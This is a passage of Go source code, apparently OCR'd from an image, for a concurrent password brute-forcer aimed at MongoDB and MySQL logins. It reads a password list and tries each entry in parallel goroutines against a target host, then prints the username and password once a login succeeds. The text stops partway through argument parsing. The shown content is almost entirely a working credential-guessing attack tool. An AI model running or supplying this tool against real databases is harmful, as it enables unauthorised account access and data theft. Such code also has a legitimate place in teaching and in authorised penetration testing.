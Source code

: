 ```go
func loginMongo(password string) { 
   // Define Mongo connection info 
   // mgo does not use the Go sql driver like the others 
   mongoDBDialInfo := &mgo.DialInfo{ 
      Addrs:   []string{host}, 
      Timeout: 10 * time.Second, 
      // Mongo does not require a database name 
      // so it is omitted to improve auth chances 
      //Database: dbName, 
      Username: username, 
      Password: password, 
   } 
   _, err := mgo.DialWithInfo(mongoDBDialInfo) 
   if err == nil { // No error = success 
      exitWithSuccess(password) 
   } else { 
      log.Println("Error connecting to Mongo. ", err) 
   } 
   doneChannel <- true 
} 

func exitWithSuccess(password string) { 
   log.Println("Success!") 
   log.Printf("\nUser: %s\nPass: %s\n", username, password) 
   os.Exit(0) 
} 

func bruteForce() { 
   // Load password file 
   passwords, err := os.Open(passwordFile) 
   if err != nil { 
      log.Fatal("Error opening password file. ", err) 
   } 

   // Go through each password, line-by-line 
   scanner := bufio.NewScanner(passwords) 
   for scanner.Scan() { 
      password := scanner.Text() 

      // Limit max goroutines 
      if activeThreads >= maxThreads { 
         <-doneChannel // Wait 
         activeThreads -= 1 
      } 

      // Test the login using the specified login function 
      go loginFunc(password) 
      activeThreads++ 
   } 

   // Wait for all threads before returning 
   for activeThreads > 0 { 
      <-doneChannel 
      activeThreads -= 1 
   } 
} 

func checkArgs() (string, string, string, string, string) { 
   // Since the database name is not required for Mongo or Mysql 
   // Just set the dbName arg to anything. 
   if len(os.Args) == 5 && 
      (os.Args[1] == "mysql" || os.Args[1] == "mongo") { 
      return os.Args[1], os.Args[2], os.Args[3], os.Args[4],   
```